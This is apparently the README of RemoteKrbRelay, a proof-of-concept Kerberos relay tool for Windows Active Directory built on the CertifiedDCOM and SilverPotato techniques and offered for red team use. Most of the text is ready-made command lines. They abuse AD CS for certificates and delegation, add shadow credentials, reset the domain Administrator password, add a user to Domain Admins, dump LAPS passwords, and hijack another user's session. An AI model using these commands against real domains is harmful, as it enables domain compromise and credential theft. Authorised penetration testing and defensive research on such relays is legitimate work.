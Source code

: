 
                            /\_/\____,
                  ,___/\_/\ \  ~     /
                  \     ~  \ )   XXX
                    XXX     /    /\_/\___,
                       \o-o/-o-o/   ~    /
                        ) /     \    XXX
                       _|    / \ \_/
                    ,-/   _  \_/   \
                   / (   /____,__|  )
                  (  |_ (    )  \) _|
                 _/ _)   \   \__/   (_
                (,-(,(,(,/      \,),),)

                CICADA8 Research Team
                From Michael Zhmaylo (MzHmO)


# RemoteKrbRelay

You probably know [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), but what if I told you it could be done remotely? With RemoteKrbRelay this becomes a reality.


# TL;DR

Learn more about CertifiedDCOM [here](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519). CertifiedDCOM allows you to trigger an ADCS machine account:
```shell
# CertifiedDCOM (Abuse AD CS by setting RBCD)
  .\RemoteKrbRelay.exe -rbcd -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -cn FAKEMACHINE$

# CertifiedDCOM (Abuse ADCS to get Machine cert)
   .\RemoteKrbRelay.exe -adcs -template Machine -victim adcs.root.apchi -target dc01.root.apchi -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8

# CertifiedDCOM (Abuse ADCS with ShadowCreds)
  .\RemoteKrbRelay.exe -shadowcred -victim adcs.root.apchi -target dc01.root.apchi -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3 -forceshadowcred
```

There's also the [SilverPotato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/) exploit. You can use it to abuse sessions. Including a domain administrator session on a third-party host.
```shell
# Change user password
  .\RemoteKrbRelay.exe -chp -victim dc01.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -chpuser Administrator -chppass Lolkekcheb123! -secure

# Add user to group
  .\RemoteKrbRelay.exe -addgroupmember -victim computer.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -group "Domain Admins" -groupuser petka

# Dump LAPS passwords
  .\RemoteKrbRelay.exe -laps -victim mssql.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

# Send LDAP Whoami request from relayed user
  .\RemoteKrbRelay.exe -ldapwhoami -victim win10.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83

# Trigger authentication from another session
  .\RemoteKrbRelay.exe -ldapwhoami -victim domainadminhost.root.apchi -target dc01.root.apchi -clsid f87b28f1-da9a-4f35-8ec0-800efcf26b83 -session 1
```

# Details
Now, you have four folders in front of you:
- Checker
- Checkerv2.0
- Exploit
- FindAvailablePort

# TO DO LIST
- [ ] Dump GMSA
- [ ] Relay initial OXID Request authentication
- [ ] Exchange to exchange relay
- [ ] CLSID Bruteforce
- [ ] Relay with supplemental credentials

# Conclusion
The vulnerability is quite serious. Note that this is the minimum POC. You should refine it if you want to use it stably on your Red Team projects. 

# Acknowledgements
- Repos [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), with their help I was able to figure out Kerberos Relay
- [BH Asia 2024 Talk](https://blackhat.com/asia-24/briefings/schedule/#certifieddcom--the-privilege-escalation-journey-to-domain-admin-with-dcom-37519)
- [Silver Potato](https://decoder.cloud/2024/04/24/hello-im-your-domain-admin-and-i-want-to-authenticate-against-you/)

Thanks for not posting the POC on CertifiedDCOM and SilverPotato, I've been stoked to do them on those articles :D
